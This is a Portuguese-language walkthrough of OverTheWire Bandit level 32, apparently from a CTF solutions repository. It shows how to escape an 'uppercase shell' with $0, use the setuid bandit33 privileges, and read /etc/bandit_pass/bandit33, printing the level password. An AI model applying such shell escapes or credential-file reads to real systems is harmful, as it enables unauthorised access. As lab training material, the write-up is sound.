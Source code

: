 # 🕵️ Bandit 32

Depois de todo esse git, é hora de outra fuga. Boa sorte!

## Solução

Quando realizamos a conexão, somos apresentados ao que o servidor chamou de uppercase shell. Isso faz com que todos os comando executados sejam convertidos para caixa alta antes de serem executados.

O problema disso é que o shell não entende estes comandos em caixa alta, nos 'travandos a executas os comando usuais:
```
WELCOME TO THE UPPERCASE SHELL
>> 

>> ls
sh: 1: LS: not found
>> pwd
sh: 1: PWD: not found
>> 
```

Para tentar contornar isso, podemos utilizar uma variável de ambiente que não terá letras e portanto não será convertida em caixa alta.

As variáveis posicionais são uma espécie de comando específico para o linux onde temos valores predefinidos. 

Por exemplo, o valor $0 retornará o nome do arquivo que está sendo executado ou o shell padrão que está sendo executado. 

Dessa forma se enviarmos este comando, como os comandos provavelmente são executados em uma chamada de shell dentro do sistema, teremos como valor de entrada o shell padrão no sistema. Vejamos:

```
>> $0
$
```

Como visto, agora saimos do código e estamos em um shell a parte, vamos começar qual usuário está executando o código:
```
$ whoami
bandit33
```

Como o usuário é bandit33, o programa escalou privilégios e nos deu permissões do bandit33. Vamos listar os arquivos no diretório home para ver os possíveis acessos do uppershell:
```
$ ls -la
total 28
drwxr-xr-x  2 root     root     4096 May  7  2020 .
drwxr-xr-x 41 root     root     4096 May  7  2020 ..
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
-rwsr-x---  1 bandit33 bandit32 7556 May  7  2020 uppershell
```

Como já temos o acesso do bandit33, vamos chamar o bash para facilitar nossa visualização e buscar o conteúdo da flag:
```
$ /bin/bash
bandit33@bandit:~$ cat /etc/bandit_pass/bandit33 
c9c3199ddf4121b10cf581a98d51caee
```

Obtemos a flag!

Ao realizar o push obtemos a flag através da mensagem de retorno! 🥷

##  Conceitos utilizados

- Variáveis posicionais
- Tipos de shell
- Escalação de privilégios

## Links úteis

- https://www.vivaolinux.com.br/artigo/Variaveis-padrao-para-usar-em-seus-scripts-em-shell
- https://br.ccm.net/contents/320-linux-o-shell
